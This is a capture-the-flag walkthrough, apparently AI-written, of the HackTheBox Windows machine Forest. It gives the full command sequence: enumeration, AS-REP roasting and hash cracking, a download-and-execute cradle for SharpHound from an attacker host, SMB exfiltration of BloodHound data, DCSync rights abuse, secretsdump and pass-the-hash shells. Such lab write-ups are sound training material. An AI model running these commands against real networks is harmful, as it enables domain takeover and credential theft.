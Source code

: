 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🛰️ Recon

### Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.161
```

### Targeted Script Scan
```bash
nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -oA scans/nmap-tcpscripts 10.10.10.161
```

### UDP Scan
```bash
nmap -sU -p- --min-rate 10000 -oA scans/nmap-alludp 10.10.10.161
```

---

## 🌲 Domain Discovery

### [DNS](DNS) Enumeration
```bash
dig @10.10.10.161 htb.local
dig @10.10.10.161 forest.htb.local
dig axfr @10.10.10.161 htb.local  # failed zone transfer
```

### Enumerating Users via [RPC](RPC.md)
```bash
rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
rpcclient $> querygroupmem 0x200
rpcclient $> queryuser 0x1f4
```

---

## 🧪 AS-REP Roasting

### Prepare User List
```bash
cat > users <<EOF
Administrator
andy
lucinda
mark
santi
sebastien
svc-alfresco
EOF
```

### Identify Vulnerable Users
```bash
for user in $(cat users); do
  GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}
done
```

### Crack the Hash
```bash
hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
# Password: s3rvice
```

---

## 💻 Shell as `svc-alfresco`

### WinRM Access
```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

### Capture User Flag
```powershell
type C:\Users\svc-alfresco\Desktop\user.txt
```

---

## 🩸 BloodHound + SharpHound

### Load SharpHound
```powershell
iex(New-Object Net.WebClient).DownloadString("http://<your_ip>/SharpHound.ps1")
Invoke-BloodHound -CollectionMethod All -Domain htb.local -LdapUser svc-alfresco -LdapPass s3rvice
```

### Exfil via SMB
```powershell
net use \\<your_ip>\share /u:df df
copy 202XXXXX_BloodHound.zip \\<your_ip>\share\
net use /d \\<your_ip>\share
```

---

## 🧭 Path to Domain Admin

### Add User to Exchange Group
```powershell
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco
```

### Assign DCSync Rights
```powershell
$username = "htb\svc-alfresco"
$password = "s3rvice"
$secstr = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secstr

Add-DomainObjectAcl -Credential $cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

---

## 🔓 Dumping Administrator Hash

```bash
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```

---

## ⚙️ SYSTEM Shell

### Using Evil-WinRM
```bash
evil-winrm -i 10.10.10.161 -u administrator -H <NTLM hash>
```

### Or with wmiexec
```bash
wmiexec.py -hashes :<NTLM hash> htb.local/administrator@10.10.10.161
```

### Capture Root Flag
```powershell
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🧠 Beyond Root

- DCSync requires TCP 135, 445, and a high RPC port (like 49667).
- There’s a cleanup scheduled task (`revert.ps1`) that resets `svc-alfresco`’s password and group memberships every 60 seconds.
- You must move quickly between adding to Exchange Windows Permissions and running `Add-DomainObjectAcl`.

---

Let me know if you want this one exported as a markdown file or added to a master write-up! 🛠️🗒️